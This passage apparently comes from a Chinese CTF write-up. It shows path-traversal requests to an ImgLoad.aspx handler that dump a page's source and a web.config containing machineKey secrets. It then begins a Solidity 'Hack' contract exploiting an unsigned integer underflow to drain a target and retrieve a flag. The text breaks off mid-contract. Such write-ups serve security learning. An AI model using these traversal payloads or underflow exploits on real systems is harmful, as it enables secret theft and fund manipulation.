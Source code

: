 /ImgLoad.aspx?path=../../Default.aspx
```
<%@ Page Language="C#" Inherits="SimpleLogin.Default" %>
<!DOCTYPE html>
<html>
<head runat="server">
	<title>Default</title>
</head>
<body>
	<form id="form1" runat="server">
        <asp:Image id="image1" runat="server" /><br>
		<asp:Button id="button1" runat="server" Text="Click me!" OnClick="button1Clicked" />
	</form>
</body>
</html>

```

/ImgLoad.aspx?path=../../web.config
```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
<system.web>
<machineKey validationKey="47A7D23AF52BEF07FB9EE7BD395CD9E19937682ECB288913CE758DE5035CF40DC4DB2B08479BF630CFEAF0BDFEE7242FC54D89745F7AF77790A4B5855A08EAC9" decryptionKey="B0E528C949E59127E7469C9AF0764506BAFD2AB8150A75A5" validation="SHA1" decryption="3DES" />
</system.web>
</configuration>
```




## 区块链

### 坚固性？！
无符号整形溢出
```
pragma solidity ^0.4.23;
contract Trans{
    
    function getBalance() public returns (bool);

    
    function showBalance() public view returns (uint256);
    
    function Transfer(address[] _addr, uint256 _value) public returns (bool);
    
    function getFlag() public view returns (string);
}

contract Hack{

    function getBalance(Trans trans)payable public returns (bool){
        return trans.getBalance();
    }
    
    function showBalance(Trans trans) public view returns (uint256){
        return trans.showBalance();
    }

    
    function Transfer(Trans trans,address[] _addr) payable public returns (bool){
        uint256 _value = 0;
        _value = (_value-2)/2+5;
```